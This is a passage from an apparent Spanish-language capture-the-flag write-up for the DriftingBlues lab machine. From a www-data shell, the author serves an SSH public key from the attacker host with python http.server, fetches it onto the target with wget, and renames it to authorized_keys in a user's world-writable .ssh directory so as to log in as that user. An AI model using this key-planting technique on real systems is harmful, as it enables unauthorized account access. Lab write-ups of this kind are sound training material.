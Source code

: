 
Al ingresar al sistema, nuestro objetivo es encontrar las flags, nos dirigimos al path `/home/` e ingresamos a la carpeta del usuario robertj, pero no podemos listar la flag por falta de permisos.

```bash
www-data@driftingblues:/home/robertj$ ls -la
ls -la
total 16
drwxr-xr-x 3 robertj robertj 4096 Jan  4  2021 .
drwxr-xr-x 3 root    root    4096 Jan  4  2021 ..
drwx---rwx 2 robertj robertj 4096 Jan  4  2021 .ssh
-r-x------ 1 robertj robertj 1805 Jan  3  2021 user.txt
www-data@driftingblues:/home/robertj$ cat user
cat user.txt
cat: user.txt: Permission denied
```

Vemos que sobre el directorio `.ssh` tenemos permisos, si bien no está la clave privada del usuario robertj, podemos subir nuestra clave pública y conectarnos como si fuésemos dicho usuario, al ser una clave autorizada `authorized_keys`. 

Para generar pares de claves `ssh-keygen`.

De nuestro lado compartimos mediante webserver la clave pública.

```bash
❯ pwd
/home/lv/.ssh
❯ ls
󰷖 id_rsa  󰌆 id_rsa.pub   known_hosts
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.11.12.32 - - [25/Jan/2025 11:40:20] "GET /id_rsa.pub HTTP/1.1" 200 -
```

Descargamos del lado de la máquina nuestra clave pública, la renombramos a `authorized_keys` y le damos permiso 777.

```bash
www-data@driftingblues:/home/robertj/.ssh$ wget http://10.11.12.10/id_rsa.pub
wget http://10.11.12.10/id_rsa.pub
--2025-01-25 05:40:20--  http://10.11.12.10/id_rsa.pub
Connecting to 10.11.12.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 563 [application/vnd.exstream-package]
Saving to: 'id_rsa.pub'

     0K                                                       100%  131M=0s

2025-01-25 05:40:20 (131 MB/s) - 'id_rsa.pub' saved [563/563]

www-data@driftingblues:/home/robertj/.ssh$ mv id_rsa.pub authorized_keys
mv id_rsa.pub authorized_keys
www-data@driftingblues:/home/robertj/.ssh$ ls
ls
authorized_keys
www-data@driftingblues:/home/robertj/.ssh$
```
